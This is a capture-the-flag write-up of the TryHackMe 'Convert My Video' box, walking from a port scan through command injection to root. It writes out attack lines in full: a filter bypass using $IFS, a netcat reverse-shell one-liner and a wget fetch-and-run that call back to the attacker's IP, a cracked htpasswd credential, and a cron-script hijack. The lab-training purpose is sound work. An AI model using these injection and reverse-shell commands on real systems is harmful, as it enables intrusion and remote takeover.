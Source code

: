 ```yaml
---
layout: post
title: THM Convert My Video writeup
excerpt_separator: <!--more-->
---
```

<img src="/img/Convertmyvideo0.head.png">
<!--more--> 
<p></p>
<a href="https://tryhackme.com/room/res" target="_blank" > Click here to access this box on tryHackMe.com</a>
<hr>


<p> Strat by enumerating  ports with a basic NMAP Scan.</p>
<p>Below we see that ports 22 and 80 are open. Let’s enumerate them further</p>
<img src="/img/Convertmyvideo/1.nmap-scan.png">

<p>We can see that ports 22 is running openSSH ver 7.6p1 and port 80 is running Apache 2.4.29. Next let’s use namp to scan all 65k ports. </p>
<img src="/img/Convertmyvideo/2.namp-scan-2.png">

<p>This will take awhile so while we wait let’s navigate over to port 80 in a web browser. </p>
<img src="/img/Convertmyvideo/3.namp-scan.png">

<p>There’s a simple page with a text box and a button that says convert. My first thought is to check the source code and use gobuster to find any hidden directories. First let start up gobuster.</p>
<img src="/img/Convertmyvideo/4.index-page.png">

<p>With gobuster I’m going to search for any files with a .txt,.php and .mp3 extension because of the clues on site. While that’s running let’s check source code and check back in on the nmap scan </p>
<img src="/img/Convertmyvideo/5.gobuster-start.png">

<p>Namp only shows ports 22 and 80 open. Next i’m going to review the websites source code.</p>
<img src="/img/Convertmyvideo/6.nmap-scan3.png">

<p>After spending some time  hours fuzzing the input I intercepted  the post request in burp suite and tried some basic command line injections.  I was able to successfully get a response back from the server by encapsulating the id command with backtick ( `id` ) not to be confused with single quotes (‘id’). Below is the output from the injection command in burp suite </p>
<img src="/img/Convertmyvideo/7.comand-line-injection.png">

<p>Something I struggled with for a bit was the command injection. It would not accept a space or tab so I could issue the command ‘ls’ but ‘ls -la’ would fail. I tried things like URL encoding the space (%20) `ls%20-ls`, but that didn;t work either. I needed to find an alternate argument separator. What ultimately ended up working was $IFS$9. The $IFS is an environmental variable  which is space by default. Additionally we add $9, which is just a holder of the ninth argument of the current system shell process (which is always an empty string). </p>
<img src="/img/Convertmyvideo/8.fuzzed-injection.png">

<p>Let’s see if we can get a nc reverse shell to call back to us. First we setup our listener on our local machine.</p>
<img src="/img/Convertmyvideo/9.nc-listen.png">

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.13.3.153 4444 >/tmp/f
`wget${IFS}10.13.3.153:7777/nc-revshell-oneline`
`bash${IFS}nc-revshell-oneline`
python -c 'import pty; pty.spawn("/bin/bash")'

itsmeadmin:$apr1$tbcm2uwv$UP1ylvgp4.zLKxWj8mc6y/ = jessie

/var/www/html/admin/.htpasswd  

<p>Let’s try and upload a reverse shell file using php.</p>
<p>here is the php code I’m going to attempt to upload</p>
<img src="/img/Convertmyvideo/10.rev-shell-code.png">

<p>Now let's host this file on our local machine</p>
<img src="/img/Convertmyvideo/11.python-server.png">

<p>Back to burp suite let’s issue a wget to download the file to the victim machine</p>
<img src="/img/Convertmyvideo/12.wget-from-burp.png">

<p>Now when I tried to call the reverse shell code by abusing the command line injection command in burp suite (`./name-of-my-file’) it wouldn’t work.I’m assuming the period (.) in the command was causing the issue. What ultimately work was calling `bash${IFS}name-of-uploded-shell-code`</p>
<p> Below I setup a listener on my local machine </p> 
<p> And then issue the command line injection payload in burp suite</p>
<img src="/img/Convertmyvideo/13.lister-4444.png">
<img src="/img/Convertmyvideo/14.burp-command-calling-the-nc-file.png">

<p>Now we have a shell as www-data. Let’s cat the user flag and begin our enumeration for privesc.</p>
<img src="/img/Convertmyvideo/15.user-flag.png">

<p>Just poking around in the filesystem, I found a file name clean.sh. When I read out this file it just removed everything in the downloads folder. Although it doesn't show  cron job  was calling this - it seemed suspect. I thought I’d give it a shot while I kept enumerating, just in case. Since www-data was the owner of the file I changed the mode to 777 so I could modify this file  and change the bash command from ‘rm -fr downloads’ to the reverse shell one liner I used earlier - but with a different port. </p>
<img src="/img/Convertmyvideo/16.clean.sh-code.png">


<p>I’m not sure if it was just luck but almost instantly after setting up my nc listener on my local machine I got a call back and it was running as the root user.</p>
<img src="/img/Convertmyvideo/17.root.txt.png">

<p>This box took me a lot longer than expected. I spent about 4 hours on the initial shell, but I think I may have lucked out on the privesc. Overall, I enjoyed the box and learned something new along the way. Kudos to the creator,  </p> 
